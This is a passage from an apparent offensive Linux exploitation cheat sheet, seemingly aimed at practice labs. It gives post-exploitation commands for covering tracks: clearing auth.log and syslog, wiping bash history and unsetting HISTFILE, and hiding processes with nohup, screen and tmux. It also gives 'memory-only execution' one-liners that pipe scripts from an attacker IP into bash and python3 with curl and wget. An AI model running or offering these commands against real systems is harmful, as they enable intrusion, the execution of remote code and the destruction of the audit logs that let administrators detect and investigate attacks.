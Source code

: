 ### Log Management

**Common Log Locations:**
```bash
/var/log/auth.log       # Authentication logs
/var/log/syslog         # System logs
/var/log/apache2/       # Apache logs
/var/log/nginx/         # Nginx logs
/var/log/secure         # CentOS/RHEL auth logs
```

**Log Cleanup:**
```bash
# Clear specific logs
> /var/log/auth.log
> /var/log/syslog

# Clear command history
history -c
> ~/.bash_history
unset HISTFILE
```

### Process Hiding

**Background Processes:**
```bash
nohup command &
screen -dmS session_name command
tmux new-session -d -s session_name command
```

**Memory-only Execution:**
```bash
# Execute from memory
curl -s http://10.10.14.111/script.sh | bash
wget -qO- http://10.10.14.111/script.py | python3
```

## Best Practices for Linux Exploitation

### Reconnaissance

1. **Thorough enumeration** of services and versions
2. **Web application assessment** for vulnerabilities
3. **Configuration analysis** for misconfigurations
4. **User enumeration** for potential targets

### Exploitation

1. **Research target-specific vulnerabilities** thoroughly
2. **Test exploits** in controlled environments first
3. **Understand exploit mechanisms** before deployment
4. **Plan payload delivery** based on target constraints
